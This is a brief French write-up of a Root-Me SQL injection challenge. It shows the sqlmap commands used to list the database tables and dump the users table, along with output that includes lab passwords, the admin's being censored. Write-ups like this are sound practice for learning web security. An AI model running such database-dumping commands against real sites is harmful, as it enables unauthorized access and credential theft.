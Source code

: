 Pour ce challenge, j’ai utilisé sqlmap, j’ai commencé par récupérer les tables :
```
sqlmap -u "http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1" --tables
```
```
<current>
[2 tables]
+-------+
| news  |
| users |
+-------+
```

puis j’ai récupéré les utilisateurs de la table users :
```
sqlmap -u "http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1" -T users --dump
```
```
Database: <current>
Table: users
[3 entries]
+------+-----------------+----------+
| Year | password        | username |
+------+-----------------+----------+
| 2006 | vUrpgAsCTX      | user1    |
| 2005 | censuré         | admin    |
| 2008 | aFjRKx7j9d      | user2    |
+------+-----------------+----------+
```

pour valider ce challenge, il suffit d’utiliser le mot de passe de l’admin et le tour est joué ;)
